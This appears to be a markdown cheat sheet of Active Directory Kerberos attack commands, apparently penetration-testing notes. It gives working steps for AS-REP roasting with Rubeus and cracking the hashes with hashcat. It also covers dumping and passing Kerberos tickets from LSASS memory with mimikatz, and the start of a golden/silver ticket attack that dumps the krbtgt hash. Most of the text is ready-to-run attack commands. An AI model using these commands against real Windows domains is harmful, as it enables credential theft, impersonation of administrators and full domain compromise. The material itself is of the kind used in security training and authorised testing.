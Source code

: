 ### AS-REP Roasting w/ Rubeus

Dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled.

```console
windows on victim:

$ Rubeus.exe asreproast

Crack those Hashes /w hashcat
(Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User)

$ hashcat -m 18200 hash.txt wordlist.txt
```

### Pass the Ticket w/ mimikatz

Pass the ticket works by dumping the TGT from the LSASS memory of the machine.

Prepare:
```console
$ mimikatz.exe
$ privilege::debug
- Make sure the outputs says [output '20' ok]
$ sekurlsa::tickets /export
- this will export all of the .kirbi tickets into the directory that you are currently in
```

When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt just like the one outlined in red above.

Pass the ticket:

```console
$ kerberos::ptt <ticket>
- ticket from preparing

$ klist
Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
```

### Golden/Silver Ticket Attack

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

```console
$ mimikatz.exe
$ lsadump::lsa /inject /name:krbtgt
- To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
```
